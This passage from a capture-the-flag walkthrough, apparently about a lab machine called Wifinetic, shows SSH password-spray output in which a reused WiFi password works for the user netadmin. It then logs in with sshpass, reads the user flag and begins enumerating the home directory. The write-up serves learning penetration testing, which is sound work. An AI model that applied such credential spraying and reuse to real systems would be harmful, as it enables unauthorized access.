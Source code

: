 ```
SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!

```

### Shell

I’m able to connect with that username / password:

```

oxdf@hacky$ sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
...[snip]...
netadmin@wifinetic:~$ 

```

And read the user flag:

```

netadmin@wifinetic:~$ cat user.txt
e5540a0a************************

```

## Shell as root

### Enumeration

#### Filesystem

#### Home Directories

The netadmin user’s home directory is basically empty:

```

netadmin@wifinetic:~$ ls -la
total 28
drwxr-xr-x  3 netadmin netadmin 4096 Sep 11 16:40 .
drwxr-xr-x 24 root     root     4096 Sep 11 16:58 ..
lrwxrwxrwx  1 root     root        9 Sep 11 16:08 .bash_history -> /dev/null
-rw-r--r--  1 netadmin netadmin  220 Feb 25  2020 .bash_logout
-rw-r--r--  1 netadmin netadmin 3771 Feb 25  2020 .bashrc
drwx------  2 netadmin netadmin 4096 Sep 11 16:40 .cache
-rw-r--r--  1 netadmin netadmin  807 Feb 25  2020 .profile
-rw-r-----  1 root     netadmin   32 Sep 13 11:01 user.txt

```
